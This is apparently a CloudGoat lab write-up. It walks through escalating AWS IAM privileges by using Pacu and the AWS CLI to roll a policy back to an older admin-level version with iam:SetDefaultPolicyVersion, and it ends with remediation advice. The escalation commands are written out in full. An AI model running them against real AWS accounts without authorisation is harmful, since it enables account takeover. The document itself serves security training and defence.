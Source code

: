 # 🚀 CloudGoat - IAM Privilege Escalation via  ROLLBACK - `iam:SetDefaultPolicyVersion` (Rollback Attack)

## 📝 TL;DR

An IAM user with **`iam:SetDefaultPolicyVersion`** can escalate privileges by reverting a policy to a **previous version** that contains **over-permissive access** (e.g., `AdministratorAccess`).  
We identify such a version (`v3`), and simply run `set-default-policy-version` to take over the account.

---

We start with some credentials for an AWS IAM user. The keys have been redacted for obvious reasons:

```bash
aws configure --profile raynor
```

Once the credentials are set, I fire up Pacu to see what kind of access I have:

```jsx
Pacu (raynor:No Keys Set) > import_keys raynor
Imported keys as "imported-raynor"
```

Now time to enumerate:

```jsx
Pacu (raynor:imported-raynor) > run iam__enum_permissions
```

Then confirm identity and scope:

```jsx
Pacu (raynor:imported-raynor) > whoami
```

We're operating as an IAM user:

- **UserName:** `raynor-cgidum7opd03zq`
- **Account ID:** `727671863602`
- **Policy Attached:** `cg-raynor-policy-cgidum7opd03zq`

### ✅ We Have: `iam:SetDefaultPolicyVersion`

This single permission is a **golden ticket** for privilege escalation. Here’s why 👇

---

## 🔓 What is a Rollback Attack?

AWS IAM policies support **up to 5 versions**, but only **one version is active** at a time — the “default.”

If an older version contains **elevated permissions** (like `AdministratorAccess`), and still exists, we can simply **roll back** to it using:

```
iam:SetDefaultPolicyVersion
```

No need to create a new policy or edit anything — we just **activate** an older version.

---

## 🧠 Enumeration Phase

We dig deeper:

```jsx
Pacu > run iam__enum_users_roles_policies_groups
```

This returns:

- 4 Users
- 9 Roles
- 4 Policies
- 0 Groups

We use the AWS CLI to list policies:

```bash
aws iam list-policies --scope All --profile raynor
```

Locate the target:

```json
{
    "PolicyName": "cg-raynor-policy-cgidum7opd03zq",
    "Arn": "arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq",
    "DefaultVersionId": "v1",
    ...
}
```

Now we list the policy versions:

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq --profile raynor
```

We find 5 versions:

- **v1** (default) — Basic read-only + `SetDefaultPolicyVersion`
- **v2** — Full deny (unless coming from specific IPs)
- **v3** — ⭐ Full `Action: "*"` access (root-level access)
- **v4** — Conditional `iam:Get*` actions
- **v5** — Some S3 read permissions

---

## 🧨 The Escalation

The most permissive version is clearly `v3`, so we activate it:

```bash
aws iam set-default-policy-version   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --version-id v3   --profile raynor
```

Boom 💥 — the IAM policy now grants **full admin access** to the account.

---

## ✅ Confirm the Rollback Worked

```bash
aws iam get-policy   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --profile raynor
```

You should see:

```json
"DefaultVersionId": "v3"
```

That’s it. We’ve successfully escalated privileges in AWS by rolling back to a previously uploaded over-permissive policy using nothing more than `iam:SetDefaultPolicyVersion`.

---

## 🛡️ Remediation

- **Delete old IAM policy versions** that are no longer in use:
  ```bash
  aws iam delete-policy-version     --policy-arn <POLICY_ARN>     --version-id <VERSION_ID>
  ```

- **Restrict access** to `iam:SetDefaultPolicyVersion` to only trusted admin roles.

- **Enable CloudTrail monitoring** and create alerts for:
  - `iam:SetDefaultPolicyVersion`
  - `iam:CreatePolicyVersion`

- Consider **automated detection** for policies that contain:
  - `Action: "*"`
  - `Resource: "*"`
  - or any **inline policies** with overly broad permissions.

- Implement **least privilege** across all IAM roles and users — revisit periodically.
